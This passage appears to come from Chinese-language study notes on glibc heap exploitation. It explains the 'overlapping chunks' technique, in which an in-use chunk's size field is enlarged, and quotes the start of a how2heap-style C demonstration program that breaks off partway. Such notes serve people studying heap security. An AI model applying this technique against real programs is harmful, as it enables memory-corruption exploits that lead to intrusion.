```c
	fprintf(stderr, "Thanks to http://www.contextis.com/documents/120/Glibc_Adventures-The_Forgotten_Chunks.pdf "
		"for the clear explanation of this technique.\n");
}
```

## 3.1 Overlapping Chunks / Increasing used Chunks / 增加在使用的chunk的大小

本攻击通过增加正在使用的chunk的大小，使得他的大小覆盖其后面正在使用的chunk，导致free该被修改大小的chunk时将后面正在使用的chunk一并free掉，再下一次malloc会产生地址重叠。

* 条件
  * 能够修改正在使用的chunk的大小
* 安全检查
  * ？？

```c
/*
 Yet another simple tale of overlapping chunk.

 This technique is taken from
 https://loccs.sjtu.edu.cn/wiki/lib/exe/fetch.php?media=gossip:overview:ptmalloc_camera.pdf.
 
 This is also referenced as Nonadjacent Free Chunk Consolidation Attack.

*/

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>

int main(){
  
  intptr_t *p1,*p2,*p3,*p4,*p5,*p6;
  unsigned int real_size_p1,real_size_p2,real_size_p3,real_size_p4,real_size_p5,real_size_p6;
  int prev_in_use = 0x1;

  fprintf(stderr, "\nThis is a simple chunks overlapping problem");
  fprintf(stderr, "\nThis is also referenced as Nonadjacent Free Chunk Consolidation Attack\n");
  fprintf(stderr, "\nLet's start to allocate 5 chunks on the heap:");

  p1 = malloc(1000);
  p2 = malloc(1000);
  p3 = malloc(1000);
  p4 = malloc(1000);
  p5 = malloc(1000);

  real_size_p1 = malloc_usable_size(p1);
  real_size_p2 = malloc_usable_size(p2);
  real_size_p3 = malloc_usable_size(p3);
  real_size_p4 = malloc_usable_size(p4);
  real_size_p5 = malloc_usable_size(p5);

  fprintf(stderr, "\n\nchunk p1 from %p to %p", p1, (unsigned char *)p1+malloc_usable_size(p1));
  fprintf(stderr, "\nchunk p2 from %p to %p", p2,  (unsigned char *)p2+malloc_usable_size(p2));
  fprintf(stderr, "\nchunk p3 from %p to %p", p3,  (unsigned char *)p3+malloc_usable_size(p3));
  fprintf(stderr, "\nchunk p4 from %p to %p", p4, (unsigned char *)p4+malloc_usable_size(p4));
  fprintf(stderr, "\nchunk p5 from %p to %p\n", p5,  (unsigned char *)p5+malloc_usable_size(p5));

  memset(p1,'A',real_size_p1);
  memset(p2,'B',real_size_p2);
```